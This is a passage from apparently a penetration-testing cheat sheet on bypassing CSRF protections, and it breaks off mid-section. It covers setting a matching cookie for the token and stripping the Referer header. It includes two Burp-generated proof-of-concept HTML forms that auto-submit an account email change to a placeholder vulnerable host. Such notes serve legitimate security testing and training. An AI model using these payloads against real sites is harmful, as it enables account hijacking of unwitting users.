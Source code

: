 * If the application contains some functionality that allows us to set a cookie in the victim’s browser, we may be able to bypass this protection.  By crafting a payload that will set a cookie in the victim’s browser and supplying the same value as the CSRF Token parameter in the HTML form.


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="hidden" name="csrf" value="iH07e8eJkWw" />
      <input type="submit" value="Submit request" />
    </form>

    <img src="$cookie-injection-url" onerror="document.forms[0].submit()">
  </body>
</html>
```

<br>

### CSRF Protection Bypass - Referer Header Validation Bypass

* If the application is using the Referer header for protection against CSRF, remove the header/value completely and review if the request was processed successfully.  
* If the request was still successful, we can craft an HTML form that includes some attributes that will cause the browser to drop the “Referer” header with the request.  This will bypass the “protection” in place.


```html
<html>
    <meta name="referrer" content="never">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

<br>

### CSRF Protection Bypass – Referer Header Validation Bypass

* The application was using the Referer header to defend against CSRF attacks.  The application was only checking to see if a specific domain value was somewhere within the “Referer” header.
